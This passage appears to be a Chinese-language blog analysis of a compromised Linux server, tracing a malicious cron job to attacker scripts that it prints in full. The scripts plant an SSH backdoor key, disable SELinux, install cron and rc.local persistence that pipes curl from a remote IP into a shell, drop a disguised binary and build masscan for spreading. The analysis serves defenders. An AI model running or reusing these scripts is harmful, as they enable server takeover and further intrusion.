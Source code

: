 ```
crontab -e
```

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/D727NicjCjMMSmebDdKWia1qbRcIfWJZLUib88hYObUI1R3UaGxYSpDgvbPbB42mOLYBGH9XqCsBQCW7FtjNnVtlg/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

果然，线索找到了。



上面的计划任务的意思就是每15分钟去服务器上下载一个脚本，并且执行这个脚本。我们把脚本下载下来看一下。

```
curl -fsSL 159.89.190.243/ash.php > ash.sh
```

脚本内容如下：

```
uname -aidhostnamesetenforce 0 2>/dev/nullulimit -n 50000ulimit -u 50000crontab -r 2>/dev/nullrm -rf /var/spool/cron/* 2>/dev/nullmkdir -p /var/spool/cron/crontabs 2>/dev/nullmkdir -p /root/.ssh 2>/dev/nullecho 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfB19N9slQ6uMNY8dVZmTQAQhrdhlMsXVJeUD4AIH2tbg6Xk5PmwOpTeO5FhWRO11dh3inlvxxX5RRa/oKCWk0NNKmMza8YGLBiJsq/zsZYv6H6Haf51FCbTXf6lKt9g4LGoZkpNdhLIwPwDpB/B7nZqQYdTmbpEoCn6oHFYeimMEOqtQPo/szA9pX0RlOHgq7Duuu1ZjR68fTHpgc2qBSG37Sg2aTUR4CRzD4Li5fFXauvKplIim02pEY2zKCLtiYteHc0wph/xBj8wGKpHFP0xMbSNdZ/cmLMZ5S14XFSVSjCzIa0+xigBIrdgo2p5nBtrpYZ2/GN3+ThY+PNUqx redisX' > /root/.ssh/authorized_keysecho '*/15 * * * * curl -fsSL 159.89.190.243/ash.php|sh' > /var/spool/cron/rootecho '*/20 * * * * curl -fsSL 159.89.190.243/ash.php|sh' > /var/spool/cron/crontabs/rootyum install -y bash 2>/dev/nullapt install -y bash 2>/dev/nullapt-get install -y bash 2>/dev/nullbash -c 'curl -fsSL 159.89.190.243/bsh.php|bash' 2>/dev/null
```

大致分析一下该脚本的主要用途：

> 首先是关闭SELinux，解除shell资源访问限制，然后在/root/.ssh/authorized_keys文件中生成ssh公钥，这样每次黑客登录这台服务器就可以免密码登录了，执行脚本就会方便很多，关于ssh keys的文章可以参考这一篇文章SSH原理与运用。接下来安装bash，最后是继续下载第二个脚本bsh.php，并且执行。

继续下载并分析bsh.pbp，内容如下：

```
sleep $( seq 3 7 | sort -R | head -n1 )cd /tmp || cd /var/tmpsleep 1mkdir -p .ICE-unix/... && chmod -R 777 .ICE-unix && cd .ICE-unix/...sleep 1if [ -f .watch ]; thenrm -rf .watchexit 0fisleep 1echo 1 > .watchsleep 1ps x | awk '!/awk/ && /redisscan|ebscan|redis-cli/ {print $1}' | xargs kill -9 2>/dev/nullps x | awk '!/awk/ && /barad_agent|masscan|.sr0|clay|udevs|.sshd|xig/ {print $1}' | xargs kill -9 2>/dev/nullsleep 1if ! [ -x /usr/bin/gpg-agentd ]; thencurl -s -o /usr/bin/gpg-agentd 159.89.190.243/dump.dbecho '/usr/bin/gpg-agentd' > /etc/rc.localecho 'curl -fsSL 159.89.190.243/ash.php|sh' >> /etc/rc.localecho 'exit 0' >> /etc/rc.localfisleep 1chmod +x /usr/bin/gpg-agentd && /usr/bin/gpg-agentd || rm -rf /usr/bin/gpg-agentdsleep 1if ! [ -x "$(command -v masscan)" ]; thenrm -rf /var/lib/apt/lists/*rm -rf x1.tar.gzif [ -x "$(command -v apt-get)" ]; thenexport DEBIAN_FRONTEND=noninteractiveapt-get update -yapt-get install -y debconf-docapt-get install -y build-essentialapt-get install -y libpcap0.8-dev libpcap0.8apt-get install -y libpcap*apt-get install -y make gcc gitapt-get install -y redis-serverapt-get install -y redis-toolsapt-get install -y redisapt-get install -y iptablesapt-get install -y wget curlfiif [ -x "$(command -v yum)" ]; thenyum update -yyum install -y epel-releaseyum update -yyum install -y git iptables make gcc redis libpcap libpcap-develyum install -y wget curlfisleep 1curl -sL -o x1.tar.gz https://github.com/robertdavidgraham/masscan/archive/1.0.4.tar.gzsleep 1[ -f x1.tar.gz ] && tar zxf x1.tar.gz && cd masscan-1.0.4 && make && make install && cd .. && rm -rf masscan-1.0.4fisleep 3 && rm -rf .watchbash -c 'curl -fsSL 159.89.190.243/rsh.php|bash' 2>/dev/null
```
